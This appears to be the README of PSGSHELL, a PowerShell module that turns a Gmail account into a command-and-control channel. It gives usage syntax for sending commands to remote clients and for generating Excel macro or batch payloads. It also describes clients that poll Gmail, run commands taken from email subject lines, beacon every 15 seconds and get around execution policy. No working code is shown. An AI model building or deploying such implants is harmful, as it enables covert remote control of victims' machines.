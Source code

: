 # PSGSHELL
I would like to give special thanks to John Strand, Black Hills Information Security (http://www.blackhillsinfosec.com/) and byt3bl33d3r (https://github.com/byt3bl33d3r)
Version .0 Release

This version and all future versions will only support the base64 encoded messages.

PSGSHELL is now a full Powershell Module, that includes the following CMDLETS. 

#Setup and Installation
All you need to download is the PSGSHELL.psm1 file to start having fun.

You will need gmail account with insecure apps allowed.

Send-PSGCommand -EmailAddress <test@gmail.com> -Password <password> -CLIENTLIST <11111:232245:432243:> -Command <Powershell V2 Command> 


Notes: All paramaters required. Client list should be separated by colons


New-PSGPayload -EmailAddress <test@gmail.com> -Password <password> -ClientID <ID For Client> -Type <macro or batch> -OutFile <full path to output>

Notes: ClientID should be a unique 6 character string. Macro will need to be copied from output file into excel. Batch script can also be powershell.



#How it Works
PSGShell communicates using GMAIL. The Client parses the GMAIL RSS feed of the account and runs the commands in the subject line on the remote systems.
The client then sends back the results of that command.
The Default beacon time is 15 seconds, but can easily be changed by editing the "Start-Sleep -s 15" value to some other length.
I plan on making this an option to specify when making payloads in the future.

#Payloads
The payloads all consist of a powershell single line commands removing the need to override execution policy.